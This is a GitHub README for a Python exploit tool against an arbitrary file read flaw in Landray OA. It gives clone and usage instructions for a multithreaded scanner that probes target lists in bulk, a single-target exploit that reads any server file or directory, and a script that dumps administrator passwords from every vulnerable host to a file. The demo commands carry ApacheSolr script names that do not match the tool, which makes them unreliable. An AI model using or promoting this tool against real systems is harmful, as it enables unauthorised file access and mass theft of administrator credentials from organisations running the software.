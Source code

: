 # LandrayReadAnyFile

Landray 蓝凌OA 存在任意文件读取漏洞，可读取服务器任意文件和目录。

本POC可批量扫描目标，EXP可直接利用漏洞独取任意文件。

## 环境

Python：>= Python 3.7

OS：ALL

## 获取

clone

```
git clone https://github.com/Cr4y0nXX/LandrayReadAnyFile.git
```

## POC

使用多线程方式批量对目标url进行漏洞探测，并输出结果。

### Usage

注意：从本POC开始t代表thread线程，T代表timeout请求超时

```
LandrayOAReadAnyFile_POC.py [-h] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  The url file, default is ./url.txt   目标url文件，一行一个
  -t THREAD, --thread THREAD
                        Number of thread, default is 32   线程数，默认32
  -T TIMEOUT, --Timeout TIMEOUT
                        request timeout(default 3)   请求超时，默认3秒
  -o OUTPUT, --output OUTPUT
                        Vuln url output file, default is
                        ./2021-03-24_11-10-20.txt   输出所有存在漏洞的url，默认以当前时间为文件名
```

所有参数均为可选参数，都有默认值，但必须有目标url文件，一行一个目标地址。

### 演示

```
python ApacheSolrReadAnyFile_POC.py -f ./1.txt
```

![image-20210508165613659](./README.assets/image-20210508165613659.png)

## 🚀EXP1  readAnyFile

单线程的方式，每次对一个目标进行验证和利用，若存在漏洞可输入文件或路径得到结果。

### Usage

```
LandrayOAReadAnyFile_EXP.py [-h] -u URL [-t TIMEOUT]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     The target address, (ip:port) or url    指定目标url
  -t TIMEOUT, --timeout TIMEOUT
                        request timeout(default 3)    指定请求超时，默认3秒
```

-u为必选参数。

### 演示

```
python ApacheSolrReadAnyFile_EXP.py -u ip:port
```

![image-20210508165045159](./README.assets/image-20210508165045159.png)

也可输入目录，得到目录下所有文件。

## 🚀EXP2  passExport

多线程读取指定服务端密码文件，获取后台管理员密码。

### 演示

```
python ApacheSolrReadAnyFile_EXP_passExport.py -f 1.txt
```

![image](./README.assets/image.png)

即可得到所有存在漏洞的系统管理员密码，并输出到文件。

